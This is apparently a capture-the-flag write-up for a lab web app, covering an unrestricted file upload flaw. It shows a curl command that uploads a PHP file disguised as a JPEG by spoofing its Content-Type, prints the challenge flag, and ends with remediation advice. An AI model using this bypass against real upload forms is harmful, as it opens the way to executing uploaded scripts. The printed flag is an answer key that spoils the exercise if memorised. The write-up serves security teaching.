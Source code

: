 # [WSTG-BUSL-08] Unrestricted File Upload

[Add image](http://192.168.56.101/?page=upload) contains a `<form>` element with attribute `enctype="multipart/form-data"` which specifies how the form-data should be encoded when submitting.

Only `jpeg/jpg` extension is allowed to be upload.

<img width="1021" alt="image" src="https://user-images.githubusercontent.com/46742040/202015974-04c11238-a64c-472b-a20b-43f59046f518.png">

`cURL` let emulate a filled-in form using `-F` option and set `Content-Type` header.

```sh
┌──$ [~/42/2022/darkly]
└─> touch /tmp/test.php
┌──$ [~/42/2022/darkly]
└─> curl -s -X POST -F "Upload=Upload" -F "uploaded=@/tmp/test.php;type=image/jpeg" "http://192.168.56.101/?page=upload" | grep -oE "The flag is : [[:alnum:]]{64}"
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Remediation
The vulnerability that could occur if uploaded script files `php`, `asp`, `jsp`, etc... contains malicious code that can be executed. In order to prevent it:

- Restrict file types to only necessary ones
- Have at least some sort of filtering, content checking, and go through `whitelist` for uploaded file
- Remove all the control characters, or special charactres (i.e. `;`, `:` `<`, `>`, etc..) from the filenames
- Limit the filename, and file size
